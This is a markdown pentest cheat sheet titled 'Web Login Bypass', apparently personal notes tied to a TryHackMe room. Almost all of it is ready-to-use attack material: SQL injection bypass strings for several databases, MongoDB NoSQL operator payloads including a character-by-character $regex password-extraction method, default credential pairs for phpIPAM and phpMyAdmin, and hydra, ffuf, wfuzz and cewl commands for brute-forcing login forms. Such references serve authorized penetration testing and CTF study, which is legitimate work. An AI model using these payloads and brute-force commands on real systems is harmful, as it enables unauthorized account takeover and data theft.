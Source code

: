 ```yaml
---
title: Web Login Bypass
description: 
tags:
    - SQL Injection
    - Web
refs:
    - https://tryhackme.com/room/nosqlinjectiontutorial
date: 2023-03-11
draft: false
---
```


## SQL Injections

```txt
admin' or '1'='1
```

### Microsoft, Oracle, PostgreSQL

```txt
admin'--
admin' or 1=1--
admin' or '1'='1'--
```

### MySQL

```txt
admin'-- -
admin'#

admin' or 1=1#
admin' or 1=1-- -

admin' or '1'='1'-- -
admin' or '1'='1'#
```

<br />

## NoSQL Injection

### Mongo

```txt
admin' || 1==1//
admin' || 1==1%00
admin' || '1==1
admin' || '1'=='1
```

- **Operators**

    ```sh
    # $ne: Not equal
    username[$ne]=xyz&password[$ne]=xyz

    # $regex: Regular expressions
    username[$regex]=.*&password[$regex]=.*
    username[$regex]=^xyz&password[$regex]=^xyz
    username[$regex]=^a.*$&password[$ne]=xyz
    username[$regex]=.{6}&password[$ne]=xyz
    username[$regex]=^.{1}&password[$regex]=^.{1} # Length of values

    # $exists: Exists in the database
    username[$exists]=true&password[$exists]=true

    # $nin: Not include
    username[$nin][admin]=admin&password[$ne]=xyz
    # If we found the "admin" exists, we can exclude "admin" by specifying $nin operator.
    username[$nin][]=admin&password[$ne]=xyz
    # If more users are found, we can exclude the user.
    username[$nin][]=admin&username[$nin][]=john&password[$ne]=xyz

    # $gt: Greater than
    username[$gt]=s&password[$gt]=s
    # $lt: Lower than
    username[$lt]=s&password[$lt]=s

    # Combinations
    username[$ne]=xyz&password[$regex]=.*
    username[$exists]=true&password[$ne]=xyz
    username[$ne]=xyz&password[$exists]=true
    username[$regex]=.*&password[$ne]=xyz
    username[$ne]=xyz&password[$regex]=.*
    username[$regex]=.{6}&password[$ne]=xyz
    ```

    After finding usernames, we can also obtain the passwords using the **“$regex”** operator as the following example.

    ```bash
    # Check if the password length is 7 characters.
    username=admin&password[$regex]=^.{7}$
    # If not, change 7 to 6 (or 8 or something number).
    username=admin&password[$regex]=^.{6}$
    # If the number of characters turns out to be 6, brute force the character one by one.
    username=admin&password[$regex]=^a.....$
    username=admin&password[$regex]=^s.....$
    username=admin&password[$regex]=^se....$
    username=admin&password[$regex]=^sec...$
    ```

- **Operators in Json**

    If the above payloads not working, try changing to a json format.  
    We also need to change the value of the **Content-Type** to **“application/json”** in the HTTP header.

    ```bash
    Content-Type: application/json

    {"username": { "$ne": "xyz" }, "password": { "$ne": "xyz" }}
    ```

<br />

## Default Credentials

```sh
admin:admin
admin:password
admin:password1
admin:password123
administrator:password
administrator:password1
administrator:password123

# phpIPAM
admin:ipamadmin
Admin:ipamadmin

# PHPMyAdmin
root:(null)
root:password
```

<br />

## Wildcard Brute Force

If it is allowed to login with wildcard (*), you may be able to find the username/password with brute force.

```bash
username = *
password = *
```

For example, in Turbo Intruder (Burp Suite), login attempt with alpha numeric characters one by one.

```bash
username=%s*&password=*
# or
username=*&password=%s*
```

My favorite wordlist for it is the seclists:  
[https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/alphanum-case-extra.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/alphanum-case-extra.txt)

<br />

## Registration as Existing User

If we know existing users in the target website, we might be able to register the same username as the existing user. For example, assume we know “admin” user exists in the website.

Try to register as the username such as below.

```bash
admin
admin%00
# Put a space before the username
 admin
```

If we can register the same username, we can login and see the information about the user.

<br />

## Brute Force Credentials

Before brute forcing, we need wordlists used for it.

- **[Rockyou](https://github.com/praetorian-inc/Hob0Rules/blob/master/wordlists/rockyou.txt.gz)**

- **[SecLists](https://github.com/danielmiessler/SecLists)**

- **[CeWL](https://github.com/digininja/CeWL)**

    Generate the custom wordlist from the target web page.

    ```sh
    cewl https://vulnerable.com > scraped_words.txt
    ```

### Ffuf

```sh
# -fc: Filter HTTP status code
ffuf -w passwords -X POST -d "username=admin&password=FUZZ" -u http://vulnerable.com/login -fc 401

# Basic Auth
ffuf -u https://admin:FUZZ@example.com/ -w wordlist.txt -fc 401
```

### Hydra

```sh
# Cracking username
hydra -L usernames.txt -p password vulnerable.com http-post-form "/login:username=^USER^&password=^PASS^:Invalid username"
# Cracking password
hydra -l username -P passwords.txt vulnerable.com http-post-form "/login:username=^USER^&password=^PASS^:Invalid password"

# HTTPS (https-post-form)
hydra -L usernames.txt -P passwords.txt vulnerable.com https-post-form "/login:username=^USER^&password=^PASS^:Username or password is incorrect"


# Cracking the Authorization or WWW-Authenticate in the request header.
hydra -L usernames.txt -P passwords.txt <target-ip> http-get
```

### Wfuzz

```sh
# Cracking username
wfuzz -z file,./usernames.txt -d "username=FUZZ&password=password" https://example.com/login
# Cracking password
wfuzz -z file,./passwords.txt -d "username=admin&password=FUZZ" https://example.com/login

# Range: 00-99 -> "password00", "password01", ..., "password99"
# -t: N threads
# -s: N seconds per request
wfuzz -z range,00-99 -d "username=admin&password=passwordFUZZ&submit=Submit" -X POST -u https://example.com/login -t 1 -s 20

# -- Options --------------------------------------------------------------------------------------------

# --hc: Hide the specific status code
wfuzz -z file,./usernames.txt -d "username=FUZZ&password=password" --hc 302 http://example.com/login
# --hh: Hide the specific chars (Content-Length)
wfuzz -z file,./passwords.txt -d "username=admin&password=FUZZ" --hh 783 http://example.com/login

# --sc: Show the specific statuc code
wfuzz -z file,./usernames.txt -d "username=FUZZ&password=password" --sc 302 http://example.com/login
# --sh: Show the specific chars (Content-Length)
wfuzz -z file,./passwords.txt -d "username=admin&password=FUZZ" --sh 1214 http://example.com/login
```